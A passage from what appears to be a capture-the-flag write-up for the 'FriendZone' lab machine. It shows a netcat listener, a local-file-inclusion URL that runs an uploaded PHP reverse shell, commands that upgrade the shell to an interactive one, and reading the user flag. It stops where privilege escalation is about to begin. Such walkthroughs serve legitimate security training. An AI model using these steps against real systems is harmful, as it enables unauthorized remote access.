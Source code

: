 ```text
nc -nlvp 1234
```

Execute the reverse shell script from the website.

```text
https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=/etc/Development/php-reverse-shell
```

We have a shell!

![](../images/max/798/1*uMJNBUUfc2oz30fKGvAbtQ.png)

Let’s upgrade it to a better shell.

```text
python -c 'import pty; pty.spawn("/bin/bash")'
```

This gives us a partially interactive bash shell. To get a fully interactive shell, background the session \(CTRL+ Z\) and run the following in your terminal which tells your terminal to pass keyboard shortcuts to the shell.

```text
stty raw -echo
```

Once that is done, run the command “fg” to bring netcat back to the foreground. Then use the following command to give the shell the ability to clear the screen.

```text
export TERM=xterm
```

Now that we have an interactive shell, let’s see if we have enough privileges to get the user.txt flag.

```text
cat home/friend/user.txt
```

![](../images/max/566/1*daEuWO90ISC-JH32y_pLHA.png)

We need to escalate privileges to get the root flag.
